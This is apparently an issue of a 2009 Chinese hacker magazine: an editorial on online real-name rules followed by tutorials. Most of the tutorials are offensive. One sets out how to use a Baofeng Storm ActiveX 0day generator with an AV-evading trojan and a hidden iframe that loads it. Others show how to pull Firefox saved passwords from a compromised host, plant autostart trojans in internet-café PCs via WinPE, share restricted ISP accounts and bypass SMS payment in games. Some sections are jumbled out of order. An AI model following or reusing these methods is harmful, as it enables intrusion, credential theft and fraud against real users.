编辑点评：重型纸黑粉当之无愧！许多书连外面的套子都还在！真是精心呵护啊！遗憾的是……为何无大模？

## “网络安全啊”，真的很危险！？

“杭州美景盖世无双，西湖岸奇花异草四季清香，那春游苏堤桃红柳绿，夏赏荷花映满了池塘……”，GDG 很喜欢唱这个太平歌词，夏天赏荷花，不错的想法。这个夏天杭州真是事多，从“网络实名制”的实行到“飙车撞行人”，全国焦点一下子就聚集到此，热度持续上升……

网络该不该实行“实名制”，一直存在争议，然而在争论声中，浙江杭州已经开始动手了。从今年5月1号开始，杭州开始实行新的互联网管理新条例，要求网络论坛等必须实行实名制，并且严禁恶意评论，这在全国开创了先例。

这次浙江省第十一届人大常委会第十次会议审议通过的《杭州市计算机信息网络安全保护管理条例》中有规定：“提供电子公告、网络游戏和其它即时通信服务的网站，需要具有用户注册信息和发布信息审核功能，并如实登记向其申请开设上述服务的用户的有效身份证明。”

其中电子公告服务指：在互联网上以论坛、聊天室、留言板、博客等交互形式为上网用户提供信息发布条件的行为。这意味着，杭州的网民无论是使用 QQ 等即时通讯软件、玩网络游戏、写博客还是在论坛发帖，都需要登记“有效身份证明”，即变相地给实名。

看来受影响最大的应该是最火的论坛、博客等等，因为一旦实名制，人们发表言论时将会有更多顾虑，网络这一新兴的表达渠道将会受阻。网民们普遍认为，限制人们在网络上随意发表言论，或是此次杭州出台网络实名立法的主要目的。老百姓的“情绪宣泄”已经是我国互联网的一个重要功能，如果这一表达渠道遭到压制，则可能会导致其它更多的社会问题。

虽然已经开始执行，不过相关人士认为，这部地方法规在执行上会碰到诸多问题：

- 首先在法理上，言论权等涉及到公民基本权利的法律法规，原则上必须由全国人民代表大会来审议，而不是地方来决定。
- 其次在操作层面，互联网的跨地域性、互联互通的特点也导致杭州的网络实名很难彻底执行。由于我国其它省份并没有要求实施互联网实名制，因此用户完全可以通过其它地区的互联网终端接入上网。
- 再次，如果要实名，用户的资料如何保护、谁拥有管理权限也是首先需要解决的问题。实名的管理权限必须由中央政府拥有，地方政府不能随意掌握用户的真实信息，企业在保护用户数据方面相对于政府一般处于弱势，地方政府往往拥有过大的权利。

通过仔细分析实名制，从某一方面来说，有点像是“好心办坏事”。网络上大家最早接受的实名制应该算是网上交易，比如网上银行、股票投资、在线购物等，我们的真实资料（可信度应该在98%以上，当然也有些人用的是假身份证）由服务提供商保管着，这要求其网络系统具有相当高的安全性。

而对于风险较高的论坛、博客等网站，很多都是个人依赖技术轻松架设的，况且多个站点可能都采用同一套程序，当这套程序被发现有可利用的漏洞时，那么涉及的范围可就太广了。现在利用站点漏洞拿数据库的技术已经有很多，一旦数据库被拿下，那么当中的资料将一览无遗。而如果其中的是实名资料，黑客可以将这些真实度相当高的资料进行贩售，从而获取利益。

另外，黑客在获得实名资料后，可以以该用户身份来享受前所未有的“权限”，因为其身份的合法性已经上升到“社会权限”，就相当于他已经是那个用户一样，只要稍做伪装（不可见面，不可说话），在网络这个可以不需要“绝对影音”验证的环境中，他就是真实的那个“他”了，这才是真正的谈“黑”色变！

我不想再给大家写出得到对方资料，而利用对方可以做的事情，你可以想象作为一个真实的自己可以在社会中做的事情就知道了。网络世界中没有绝对的安全，就连社会当中，安全也不是绝对的。任何人都不是圣人及先知，不可预料的事情太多了。如果要求在网络上注册的信息必须为实名，那对于一些擅长搜索的用户来说，就可以轻松获得目标更多的信息，“网络实名制”的实行将会大大使“人肉搜索”普及开来！

我们来这样设想一下，如果网站的数据库与全国公安系统人口普查数据库（后面简称人口库）相连，当网络上如此多的网站需要读取人口库进行验证时，想必一台人口库服务器决不能胜任。而每个网站都去下载一个人口库在自己主机上，那么每天出生、逝世或者改变自己姓名的人数是未知的，是否每天还得自己去更新。这里还有一个更可笑的问题，人口库绝对不可能让你下载的（无论其中的信息是否被加密），不然这些信息将会逐渐被解出来，我是相信肯定是有人才的。另外，大家一起去下载人口库，那提供下载的服务器又得接受一番考验了。

总之写到这里，我已经很怕了，如果在线交易（银行、投资、网购）的服务商不能做到保证自己数据库99%以上的安全，保险公司可以考虑一下推出“网络险”了，估计会很火，嘿嘿……当然，这个险种会让保险公司亏死的，所以至今貌似没有这个险种，呵呵……

某猴拦首：六月骄阳似火，地下热浪滚滚，于是不想闷在家里，决定出去走一走。刚一踏出家门，就像自己是包子一样，后面一群狗跟着。自我安慰下，还好不是“狗不理”。我不过就是在网上发了个帖，至于天天开着蓝蓝白白在路口望吗？我只是出来走走，不会去网吧的，更不会去找人聊天。黑客在某一方面，注定要孤独，决不能与别人交换秘密，这是原则……虽然锁定的 IP 是在这一区域，但能够保证你遇到的人就是发帖的人吗？网上网下，人是不一样的……

## 风暴中的暴风0Day

图 安天实验室

### 从本文你可以了解到“暴风影音”漏洞

在以往我们的经验中，遵循一定的游戏规则是黑客的行为准则。虽然没有任何法律约束，但是黑客都恪守着挖出漏洞，通知厂商，待厂商推出补丁后公布漏洞部分细节这样的规范动作。然而在今天，这种规则开始被颠覆，黑客开始将自己挖掘出来的第一手漏洞立刻公开，让软件开发商和用户在面对危险时措手不及。

仅仅相隔12个小时，甚至有可能是6个小时，黑客就快速地开发出了挂马工具，并且开始大范围地投入到实战之中，这种速度完全颠覆了以往所有的游戏规则，让危险第一次如此快速地侵入到了网络之中。

### 出鞘如风暴的0Day

2009年4月30日，日使用1700万次的知名媒体播放软件“暴风影音”连续爆出两个重大漏洞，时间正值五一放假的前一天，很少有人注意到了这条漏洞公告，甚至可能连“暴风影音”的开发者都认为可以等到国庆节之后再处理这两个漏洞。按照以往网络安全界的惯例，黑客在获取漏洞信息后，最多也要一周之后才能够研发出相关的利用工具。

然而，所有的一切都没有按照人们预期的进程发展。就在紧接其后的5月1日，国内许多网站纷纷遭到有计划的入侵挂马，而被黑客用来挂马的网马就是前一天刚刚爆出的“暴风影音”漏洞。

图1　被挂马站的源码中出现可疑链接

## 肉鸡撞龙

图2　可疑的 CSS 文件

图3　可疑的 htm 文件

```asm
1  .text:1005EB8F    push    ebp
2  .text:1005EB70    push    esi
3  .text:1005EB71    mov     esi, [esp+1350h+lpString2]
4  .text:1005EB78    push    edi
5  .text:1005EB79    push    offset aStormbox_0 ; "stormbox"
6  .text:1005EB7E    mov     ebp, ecx
7  .text:1005EB80    push    esi
8  .text:1005EB81    call    ds:strstr
9  .text:1005EB87    add     esp, 8
10 .text:1005EB8A    test    eax, eax
11 .text:1005EB8C    jnz     loc_1005ED67
12 .text:1005EB92    push    esi
13 .text:1005EB93    lea     ecx, [esp+1358h+var_1034]
14 .text:1005EB9A    call    sub_10060320
...
16 .text:10060321    push    esi
17 .text:10060322    push    edi
18 .text:10060325    mov     edi, [esp+8+lpString2]
19 .text:10060326    mov     esi, ecx
20 .text:10060328    push    edi
21 .text:10060329    mov     dword ptr [esi], offset off_1007C5A4
22 .text:1006032F    call    ds:lstrlenA
23 .text:10060335    inc     eax
24 .text:10060336    push    eax
25 .text:10060337    lea     eax, [esi+4]
26 .text:1006033A    push    edi
27 .text:1006033B    push    eax
28 .text:1006033C    call    ds:lstrcpynA
29 .text:10060342    mov     eax, esi
30 .text:10060344    pop     edi
31 .text:10060345    pop     esi
32 .text:10060346    retn    4
```

图4　ASM 反汇编漏洞触发点

许多软件厂商都认为安全界存在一个潜规则，就是黑客一般在挖掘到软件漏洞之后会先通知厂商，并等待厂商做出反应之后才会将漏洞的部分细节公布。可在这一次的 0Day 事件中，黑客不仅快速地利用了刚公布出的漏洞研发出攻击工具，并且特别选在了节假日期间利用此漏洞，这样的时间设计显然是为了让都处于放假期间的安全公司来不及反应，以便让更多安装有“暴风影音”的用户受到黑客的威胁。

从2008年开始，安全界其实一直都在发生着一种新的变化，部分黑客，特别是年轻的黑客，开始不再遵循以往的行为规则，而是希望依靠打破这种规则，引起大家的注意。而且比起以前安全技术人员会将漏洞信息义务提供给厂商有所不同，今年许多安全界漏洞专家开始向软件厂商强调：“没有免费的漏洞”这样的概念，因此对于那些忽视网络安全的软件开发者和用户而言，互联网的安全环境显然在发生新的变化，这种变化让那些不重视网络安全的软件开发者今后将面临非常危险与尴尬的境地。

## 修不好的盲点

这一次“暴风影音”的漏洞其实是两个，第一个名为“暴风影音2009(mps.dll) ActiveX 远程栈溢出漏洞”，它的问题出在“暴风影音”的“mps.dll”文件上。当负责下载视频的参数 `Sub OnBeforeVideoDownload(ByVal URL As String)` 下载的 URL 是一串超长字符串时，由于程序没有进行检验，就会导致发生栈溢出，攻击者可以利用堆填充技术非常简单地执行任意代码。

另外一个漏洞名为“暴风影音”2009(Config.dll) ActiveX 远程栈溢出漏洞”，漏洞出现在“Config.dll”文件中。在“暴风影音”ActiveX 程序的参数中，当 `Sub SetAttributeValue(ByVal lpQueryStr As String, ByVal bstrAttributeName As String, ByVal lpValueStr As String)` 中的 `lpQueryStr` 数值是一个超长字符串时，程序就会发生栈溢出，攻击者同样可以利用堆填充技术执行任意代码。

此时我们可以非常清楚地看到，这两个漏洞犯了同样的致命错误，就是没有检验程序参数的字符串长度。这就如同一位国内航空公司递送了你一张空白机票，空白机票上有三个空格，允许你填写国内任何三个汉字以内的城市名称。你填写好城市后，飞机就会按照你的要求飞到你所填写的城市。

但是此时你发现，虽然空白机票上只有三个空格，但是实际上你可以写入任意长度的名称，自动飞机的系统并不会检查城市名称长度是否有问题，于是作为乘客的你就可以在机票上写“西班牙巴塞罗那”或者“俄罗斯莫斯科”，飞机一样会执行这些本来航空公司不允许它飞到的地方。

“暴风影音”显然就是这架不会做字符检查的飞机，于是黑客在机票上填写了“美国纽约世贸大厦”之后，这架飞机就如同脱缰的野马一般朝着危险的目标飞过去了。

此外，这次第一个漏洞与2007年“暴风影音”的一个漏洞极为相似，同样是因为对 URL 链接的检验工作没有做好导致的问题，同样出在 mps.dll 文件上。同样的问题出现两次，的确让人诧异，而且这次 0Day 利用工具之所以会如此快地出现在互联网上，很大程度上与“暴风影音”的漏洞利用简单不无关系。

这两个漏洞都非常适合用来被黑客挂马，对于那些挂马集团的黑客而言，触发后执行任意代码的漏洞，简直是为他们量身定做的，而且这个漏洞非常典型，对于刚刚开始学习挖洞的技术青年来说，也是一个学习的好范例。

自从“暴风影音”开始商业化运营后，它一直在试图努力地脱离 MPC 内核。演变改良后的“暴风影音”的确脱离了 MPC 的阴影，但是在近一年多激进式的发展过程中，安全隐患成为了它最大的问题，特别是为了保持兼容多格式所造成的繁多的 DLL 加载问题。

目前“暴风影音”每天大约有2200万的使用量，号称在国内拥有仅次于 QQ 软件的庞大用户群，这在某种意义上也意味着所有这些“暴风影音”用户都有可能访问到被黑客挂马的网站，都有可能被黑客利用没有补丁的 0Day 漏洞所入侵，危险可想而知。

态链接库，更让程序增加连锁风险，也是让 MPS.DLL 成为修不好的盲点的原因之一。

## 挂马集团是如何做到的？

现在黑客用“暴风影音”0Day 挂马会采用生成器，值得注意的是，网络中已经出现了能够利用的工具。也就是说，现在任何一个人都可以使用“漏洞生成器”生成一个“暴风影音”0Day 网页木马进行挂马，而且使用生成器挂马的方式异常简单，几乎不需要任何技术。

## 生成器挂马

第一步：黑客会首先制作一个免杀木马，他们会选择用灰鸽子、PCShare 或 SRAT 等，任何他们喜欢的木马生成出一个服务端。然后通过更改杀毒软件识别的特征码躲过追杀，再加上一层 UPXShell 之类的壳进行加壳免杀（NoHack 之前都介绍过大量的免杀方法），接着将免杀木马服务端上传到自己指定的网站中。

第二步：打开“暴风影音”0Day 生成器，如图5，在程序地址框中输入刚才上传的免杀木马地址，然后点击“生成”按钮，此时生成器会在默认目录下生成两个文件，一个 HTML 文件“BF.htm”和一个名为“stbf.css”的 CSS 文件，如图6。

第三步：将生成出的两个文件上传到你指定的网站中，然后再使用如下框架命令代码将 BF 文件嵌入到想挂马的网站即可。

```html
<iframe src=http://www.test.com/bf.htm width=0 height=0></iframe>
```

如果黑客对生成的文件不满意，还可以对 BF 进行加密，让这个文件绕过杀毒软件的查杀。

## 漏洞临时解决策略

目前厂商已经推出了相应的补丁文件，建议用户安装并升级自己的杀毒软件及防火墙，如图7。

对于没有安装防挂马软件，又不方便在线升级补丁的用户，建议可以通过注册表对相应的 **CLSID:BD103B2B-30FB-4F1E-8C17-D8F6AADBCC05** 和 **CLSID:6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB** 设置成 Killbit，或者将以下文本保存为 REG 文件并导入。但是需要注意的是，这种方法可能会导致“暴风影音”部分功能缺失。

```reg
Windows Registry Editor Version 5.00
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{6BE52E1D-E586-474F-A6E2-1A85A9B4D9FB}]
"Compatibility Flags"=dword:00000400
[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\{BD103B2B-30FB-4F1E-8C17-D8F6AADBCC05}]
"Compatibility Flags"=dword:00000400
```

> **编辑点评：**
>
> 对于多媒体播放器软件的漏洞，很早以前就知道 realplay 有过，主要是利用其特性，播放的时候可以下载相关内容。而现在许多播放器都已经有了这种特性，所以安装杀毒软件和防火墙并及时升级它们来封好防备吧。

原点宣言：网上得来终觉浅，觉知此事要躬行。看到这句话你是不是想到了些什么？网上、书上的内容你一看就懂了，就代表你会了吗？你在测试的时候是否一样同原作者那么顺利？究竟会遇到哪些问题呢？你测试过程中的问题是由什么引起的呢……这不由让我想起一句话来，就是实践出真知。大家一定要多多练习，别人的东西始终是别人的，只有经过自己斟酌和实践才能变成自己的……

## 窃取 Firefox 保存的密码

■ Mickey

从本文你可以学到：

- 如何查看 Firefox 保存的密码

渗透时，一般进入远程系统的第一件事情是什么？当然是寻找更多与密码相关的信息，比如寻找 E-MAIL 客户端、IE 浏览器、聊天软件客户端、FTP 客户端的自动密码保存信息，然后抓系统的 HASH，看 mstsc 连接文件等等……这些工作，一般情况下都是上传 CAIN 来搞定。但是对于现在比较常用的另一款浏览器 Firefox，想获得它的密码保存信息，就我知道的情况，好像没有什么现成的工具可用，如果有朋友知道，烦请告之。

我这里用另一种方法来抓出 Firefox 的密码保存信息，这些信息一般存放在用户的 profile 目录的 signons3.txt 和 key3.db 文件中。这个路径在 Windows XP 下是 `C:\Documents and Settings\用户名\Application Data\Mozilla\Firefox\Profiles\`，在 Windows Vista 下是 `C:\Users\用户名\AppData\Roaming\Mozilla\Firefox\Profiles\`，在大部分的 LINUX 发行版中是 `/home/用户名/.mozilla/firefox/`，其中的 signons3.txt 存放的是域名信息和加了密的散列，如图1。

这个文件是很有价值的：第一，可以通过查询这个文件来判断对方是否使用 Firefox 的时候保存了密码。如果查看这个文件是空的话，我们也就没有必要把它下载回来；第二，可以通过域名信息来识别破解出来的密码的登录地址。

下面来说说破解步骤，其实很简单，我称为“替换法”。首先从目标机器上把 signons3.txt 和 key3.db 拷贝到本地，Firefox 的一个用户可以有多个 profile，所以我们可以专门在本地新建一个 profile 来用于专门的破解。

我这次的渗透平台用的是 ubuntu，打开终端，输入 `firefox -P`，Firefox 会弹出一个对话框，让你选择要使用的 Profile。我这里新建一个，叫 mickey，如图2。

把 signons3.txt 和 key3.db 拷贝到 `/home/mickey/.mozilla/firefox/bxg0g4ab.mickey` 下，打开 Firefox，选择 Tools→Options→Security→点选 Saved Passwords 按钮→最后点 Show Passwords，这样就能看到密码明文了，如图3。

> **注意：**这里所说的 Firefox 的保存密码，并不是 cookies 记录的认证信息，而是在你输入密码的时候，Firefox 所提示的“Do you want Firefox to remember this password?”，如图4。
>
> **编辑点评：**
> Firefox 大家用得应该挺多，我就经常用它，特别是在上论坛的时候，会让 Firefox 记住密码，免了下次登录的时候再输入。没想到，由此引出来的安全隐患还是挺大的，渗透的时候相信会对大家有用。

## 将 DRCOM 账号共享进行到底

◎光芒果

从本文你可以学到：

- DRCOM 的破解

最近搬迁到了新校区，环境荒凉，景色优美，空气清新，鸟语花香……最主要的是，网络的接入方式变了，由原来的路由共享 ADSL 或者校园网接入互联网变成了现在的数字校园接入，采用 DRCOM 城市热点登录。这样一来，网络就稳定了许多，也不用担心共享 ADSL 会影响同学的网速了，但也带来了许多限制，今天我们的目的就是要突破这些限制！

话说用 DRCOM 登录上网虽然有很多限制，比如不能用“迅雷看看”等，但那都成为 3.41 版的历史了，对现在用的 3.72 客户端来说完全没有问题。现在最大的限制就是一个账号不能多人共享使用。其实 ADSL 等也都不能共享使用，但我们用路由还不是一样共享？所以本着能省则省的原则，加上有几天 MM 要借用我账号，搞得我那几天不能上网，非常郁闷，于是就着手寻找到了共享账号上网的方法。

联想到 3.41 时代，我看不了“迅雷看看”的电影就会采取一个办法：用 WEB 登录，这样就可以绕过登录器的网络应用限制了。具体方法是在 IE 浏览器中直接输入接入服务器的 IP 地址，界面显示如图1。

这就很简单了，输入账号和密码就可以登录上网了（其实这个是留给 LINUX 等用户的登录方式）。现在我想要共享账号上网，首先就考虑到了以这里作为突破口。既然用 WEB 可以绕过登录器的限制，那么一个用 WEB 登录，一个用登录器登录，是否可以同时两台机器用一个账号上网呢？

于是我马上用虚拟机和同宿舍同学的电脑做了实验，结果发现分别用 WEB 和登录器登录，先登录的还是会被后登录的踢下线。到隔壁宿舍拿珍珍两个不同宿舍用不同方式同时登录，也一样会被踢，看来这个方法行不通……

正当我万分郁闷的时候，忽然发现自己上不了网了，我以为是掉线了，就用 WEB 再登录了一次，然后继续百度一下，看看有什么破解方法。这时候 MM 忽然发了个 QQ 信息给我，问我为什么刚才她掉线了，再次登录又上来了。这时我才明白，原来是 MM 要用我账号了，没办法，只能让给 MM 用了……不对，MM 既然现在能上 QQ 给我发信息，就说明她是能上网的，而 MM 上网用的就是我的账号啊，但我现在并没有掉线啊，这是怎么回事呢？

后来经过实验发现，只要不是处于同一个 VLAN 的，就可以分别用 WEB 和登录器同时登录一个账号；当后登录的用户登录时，原登录的用户或者会掉线，但只要重新再登录一次就可以实现共享账号上网了。

好景不长，过了没多久电信就发现了这个 BUG，于是就把 WEB 登录界面的登录表单去掉了，如图2。

由于平时也不是很注意，所以一直没有保存 WEB 登录界面的源代码，更别说抓包了，因此也不知道表单提交的地址是什么，搞到现在又不能共享上网了。万分郁闷下我再次寻找突破方法，终于发现了一个 LINUX 用户编写的 DRCOM WEB 登录代码（代码见光盘）！于是把代码保存为 HTM 形式，就又可以和以前一样共享账号上网了，而且相互不影响各自的带宽，开户办理的带宽是多大，各自享受的带宽也是多大。

既然电信要封锁我们共享账号上网，那我们就要将破解进行到底！现在虽然可以两个人共享账号上网了，但必须是不同的 VLAN，也只能两个人同时用，有什么方法可以多人共享呢？这时候我注意到了用 WEB 登录是不受任何网络应用限制的，于是我用 WEB 登录，然后在本机安装了一个代理服务软件，没有账号的朋友我就告诉他的 IP 地址和代理端口号，只要把我的 IP 设置为代理就都可以上网了。

【文章中涉及的代码已收录于本期光盘中】

编辑点评：细心中发现的问题就是解决之道啊！关于 DRCOM 上网的方式我没接触过，希望对大家有用，话说光芒果为啥每次都在 MM 被“逼”的情况下才……

## 利用 WinPE 突破网吧还原系统

图翼阿希夫

从本文你可以学到：

- WinPE 的妙用

最近有人问我，利用 WinPE 是否可以突破网吧的还原系统？这个问题一下子把我问住了，因为自己很少有时间到网吧去上网。于是我又请教了其他的一些朋友，得到的结果也是说法各异。没有办法，只好下载了一个《冰点还原精灵》软件，自己在本地环境里面进行测试操作。那么最终的测试结果到底是怎么样呢？快快往下看吧。

### 一、修改启动方式

> “WinPE 是一款在保护模式下运行的 Windows 个人版内核，是一个只拥有较少（但是非常核心）服务的 Win32 子系统。它提供了一个可以启动计算机，并进行 Windows 系统安装的环境，已经成为一个功能强大的电脑系统维护平台。”

通常情况下，WinPE 都是通过光盘或 U 盘作为载体，但是网吧里面通常是没有光驱可以使用的，所以我们只能使用 U 盘版的 WinPE 了。至于如何制作 U 盘版的 WinPE，大家可以通过百度进行搜索查看，这里就直接跳过了。

首先把 U 盘插入到主机的 USB 接口上，接着在开机的同时按键盘的 Delete 键进入计算机的 BIOS 设置，确认当前系统的启动方式为 U 盘启动。一般可以按“+”或“-”修改第一启动为 U 盘启动，再按 F10 键并回答“y”即可保存设置退出 BIOS 并且重新启动电脑。

这样，电脑开始以 U 盘为第一启动盘进行启动，很快就可以看到 WinPE 的功能选择界面，然后根据自己的需要进行功能选择，最后按下回车键就可以启动该功能进行操作了。

可能有些经常在网吧的朋友要问，现在网吧电脑的安全已经做得很好了，很多时候包括 BIOS 在内都设置了登录密码，怎么才能进去修改启动顺序呢？其实这个时候可以换一种方式，即在开机后按 ESC 键或 F12 键，在弹出的菜单中修改启动顺序，然后选择 USB 启动就可以运行 U 盘上的 WinPE 了。

不过，有的主板不支持快捷键那又怎么办呢？这时可以使用一款名为 FlashBios 的软件，它是一个可以在 Win 98/2000/XP/2003 下清除 BIOS 密码的好东西。首先按照正常进系统到网吧的电脑系统，再打开系统中的命令提示符窗口，运行命令“flashbios.exe xp”就可以清除本机的 BIOS 密码了，如图1。

这里需要说明的是，命令中的 xp 指的是系统的当前版本。如果系统使用的是 Windows 2003，那么命令就应该输入“flashbios.exe 2003”，以此类推。

### 二、植入木马程序

系统重新启动以后，就能进入 U 盘中的 WinPE 系统了，现在可以把木马文件悄悄地放到本机的硬盘中，并设置木马的启动方式，好让它可以随机器运行。

要实现木马文件随机启动，有很多种方法，比如首先利用资源管理器进入到目录 `X:\Documents and Settings\All Users\「开始」菜单\程序\启动`，然后把木马文件复制到这个启动目录，这样系统启动的时候就会自动运行木马文件了，如图2。

除此以外，还可以利用注册表内容来进行操作。找到 WinPE 中“开始”菜单里的“程序”，选择“Windows 系统维护”子菜单中的“编辑目标 Windows 注册表 Regedit”命令，**切忌这里不要使用传统的 Regedit 命令**。

然后在弹出的注册表编辑器窗口，将注册表定位到注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`，在它的右边窗口里面点击鼠标右键，选择新建“字符串值”命令后，填写一个不起眼或迷惑人的名字。

接着双击打开这个新建的内容，在弹出窗口的“数值数据”中输入木马文件的路径，比如 `C:\WINDOWS\muma.exe`，然后“确定”退出即可，如图3。

现在拔下 U 盘并重启计算机系统，稍等下就可以看到木马已经悄悄地运行了。这时可能又有人要问了：你这么进行操作以后，关机时还不是被还原了？

木马服务端的确是会被还原的，但是在还原的同时也回到了最初的状态，这样在开机的时候又会加载运行，从而又能正常地进行控制操作了。当然，也可以用 WinPE 来破坏网管软件等，到底该怎么用，就看大家的自由发挥了。

> **编辑点评：**
>
> 文章最后一段中的“但是在还原的同时也回到了最初的状态，这样在开机的时候又会加载运行，从而又能正常地进行控制操作了。”我怎么着都有点迷糊呢？不知道作者测试过没？不过，用 WINPE 来破解还原的文章倒是有过，大家学习一下。

**从本文你可以学到：**

**几款工具的使用**

每当有危害性很大的计算机病毒出现时，杀毒软件服务商都会推出免费的专杀工具供计算机用户来下载和使用。可是常言说得好：“求人不如求己”，所以我们不如自己编写相应的专杀工具，从而还可以学习到很多病毒防护方面的知识。

## 一、系统智能扫描

我们经常在安全论坛看到，在网友求助的时候会被要求上传一份 SREng 的扫描报告。**SREng 的全称为 System Repair Engineer，是一款强有力的调整和修复系统的工具**，今天我们就利用一个国外的木马程序来进行演示。

首先运行 SREng 并点击“智能扫描”按钮，接着设置需要扫描的选项内容，包括所有的启动项、浏览器加载项、正在运行的进程等，从而对系统进行了一个全方位的扫描，如图1。

当扫描完成后，程序会给出一个详细的安全报告，点击“保存报告”按钮就能将报告保存到一个文本文档里面。需要说明的是，由于这些安全工具主要是通过数字签名来进行判断的，所以有的时候这类安全工具也很难发现病毒文件的信息。这时可以借助金山清理专家、360 安全卫士等工具，让这些程序自动连接到相关的服务器，通过数据库验证来判断这些文件的安全性，并给出一个对应的系统安全报告。

## 二、安全报告分析

现在我们还是通过 SREng 的扫描报告来进行分析。通过报告能帮助用户发现一些系统中存在的错误，并告诉使用 SREng 或其它工具解决这些问题。如果用户看不懂分析报告的话，可以使用“SREngLOG 智能分析专家”来进行辅助。

把报告文件 `SREngLOG.log` 放到“SREngLOG 智能分析专家”目录中，然后运行“SREngLOG 智能分析专家”即可。这时点击“开始智能分析”按钮，当程序提示报告分析完成以后，就可以在窗口中看到相关的操作提示，如图2。

比如软件提示说“删除 `C:\Windows\System32\cxzzl.exe` 文件，同时删除 `[SynSecurity/DarkCoderSc]` …”。

图5

图4

```ini
[/AEG]
[/SER]
%serdel%DarkCoderSc
[/SER]
[COR]
IFEO=FALSE
ASSOC=FALSE
HOSTS=FALSE
WINSHELL=TRUE
[/COR]
```

代码写入文件后如图4。

这段代码中的 INF 段，介绍的是软件界面基本信息，包括窗口标题、界面顶部文字、专杀工具作者、专杀工具版本、界面底部版权信息等；

VIR 段表示要进行清理的病毒文件，病毒文件的路径支持环境变量；

REG 段表示要清理的注册表信息，其中 %regdel% 为注册表删除标志。需要说明的是，当代码以“\”结束时，表示删除该注册表项及其子项。如果没有“\”标识的话，则表示删除该指定的键值。

SER 段表示要删除的系统服务或驱动，%serdel% 为服务、驱动删除标志。例如 SREng 中显示服务 [Remote Packet/wcscsvc]，那么此处应该编写为 %serdel%wcscsvc。

COR 段表示执行指定的系统修复操作，包括 IFEO 映像劫持、文件关联、hosts 文件和 Windows Shell 修复。

到此为止，这个专杀工具就最终完成了。现在运行专杀工具的主文件，直接点击“开始扫描”按钮就可以进行检测操作了，如图5。

> 编辑点评：自己做专杀工具，其实是一个 inf 脚本的应用。对于普通用户不懂的一些代码，这个工具就取而代之了。

“服务”等。不过笔者通过对分析报告的阅读，发现该木马还利用注册表的启动项 MSvchost 来进行了启动，如图3。

另外，木马还对系统的默认属性进行了修改，包括禁用任务管理器、禁用系统防火墙、禁用注册表编辑器等。

## 三、制作专杀工具

现在我们就来制作专杀工具吧，这里需要使用一款工具 AntiVirus Engineer（AVEng），它和“SREngLOG 智能分析专家”都是同一个作者推出的。AVEng 是专门为广大普通用户提供的一款快速制作专杀工具的软件，只要你能够分析 SREngLOG 这个安全报告，就能够通过修改 AVEng 的配置文件 virus.ini 来快速制作出专业的专杀工具。该工具采用纯病毒清理、系统修复引擎，能够快速准确地清理病毒并修复系统常见故障。

用记事本程序打开配置文件 virus.ini，将病毒的相关信息按照文件的格式进行写入，具体的内容如下：

```ini
[INF]
Title=SynRat木马专杀工具
Name=SynRat木马专杀工具
Version=090501
Killer=五毒不侵
Log=FALSE
Copyright=专杀提供：五毒不侵
Description=该木马程序会破坏系统的正常运行，并且大量窃取用户的个人隐私信息。@@# 本软件适用于检测清除 SynRat 木马及其变种。@@#
[/INF]
[VIR]
%windir%\System32\cxzzi.exe
[/VIR]
[REG]
%regdel%HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\MSvchost
```

## JAVA 游戏的破解

从本文你可以学到：

- 手机游戏的破解

JAVA 拥有跨平台执行的优点，所以有很多优秀的游戏作品。最近很迷恋手机游戏，于是下载了很多 Java（Jar 格式）的游戏试玩，可是许多游戏都是收费的。俺是穷人，没有钱去注册，不过建议有钱的话还是支持一下游戏公司，否则以后就没有好游戏玩了。在这里拿出我的一些经验和大家分享，不算什么高深技术，只是一个投机取巧的方法，不过很简单易懂。

对于 Java（Jar 格式）游戏的收费方式，就两种：一种是发送特定的代码到一个号码，比如：106628***；另外一种就是通过 WAP 定制收费业务。本文只讨论发送短信收费的方式。

首先大家要安装 halo，它是一个用来汉化 jar 文件的软件，具体功能大家自己研究一下，这里只说破解功能。软件运行的时候需要 Java 的 JDK，大家可以到网上搜索下载。

先用 halo 打开要破解的游戏，如图1。之后点“编辑”菜单，选择“全文查找”，接着在弹出的窗口里填 106，因为游戏一般都是通过给以 106 开头的号码发信息定制服务来扣费，如图2。

之后双击如图3的“位置一”，之后软件会自动定位到“位置二”的地方，接着双击“位置二”选中“106699***”开头的字符串，之后在“位置三”的编辑框里把“106699***”改成“10086”就可以了，最后点击“提交”。

这样游戏只会给 10086 发送信息，呵呵，给 10086 发信息就是免费的。如果“位置一”有多个结果，都一一按照步骤改成 10086。最后还有两个步骤：点击“工程”→“编译”后再次点击“工程”→“打包”，注意这两个顺序不要弄错。最后一定要注意：破解的游戏要放在 halo.exe 同一个目录下的“games”文件夹中。

现在游戏修改完成了，把游戏复制到手机里，出现提示发送信息扣费也不用害怕，直接“同意”就可以了，信息是发给 10086，不扣费的。

这是一个比较简单、单针对短信的破解方法，只对部分游戏有效，希望这篇文章能够起到抛砖引玉的效果，让大家都玩得开心。

> [文章中提到的相关工具已收录到本期光盘中]

**编辑点评：**

作者写的很简练，我很喜欢这样简短有力的文章。玩的就是思维，小技巧大作用，不错！我想读者中玩手机游戏的也应该不少吧，呵呵……

## 在 Vista 系统中扫描更加快速

从本文你可以学到：

- 如何在 Vista 下加快扫描速度

Vista 系统已经推出很长一段时间了，经过使用，发现其在安全性方面确实有所提高，但是在其它的一些方面却进行了限制。比如系统里面的 TCP 并发半开连接数，为了防止蠕虫病毒的快速传播，系统默认只允许最多同时进行 10 个连接，从而造成包括端口扫描在内的操作显得异常缓慢。所以，今天我们就来看看如何破解 Vista 系统的连接限制。

### 一、文件破解方法

- 1. 文件破解方法

过去对连接数进行破解非常简单，利用 BT 软件中的相关功能就可以实现。但是同样的操作在 Vista 系统里面却无法实现，因为 Vista 系统在启动的时候会检查系统文件的数字签名。一旦发现文件的数字签名有问题，轻则无法正常登录到系统里面，重则出现系统蓝屏。所以，很多 BT 软件的破解功能都不支持 Vista 系统的线程数破解。但是经过使用后发现，比特精灵提供的破解程序是可以对 Vista 系统的线程数进行破解的。

首先，在系统中安装最新版本的比特精灵，然后重新启动系统并按下 F8 键进入安全模式。接着进入到比特精灵目录运行破解程序 BetterSP2.exe，在弹出窗口的“更改限制为”输入框中，把限制更改为 **256** 或者更高的数值即可。这样就可以对 tcpip.sys 文件进行破解，这就是标题中声称的文件破解法，如图1。

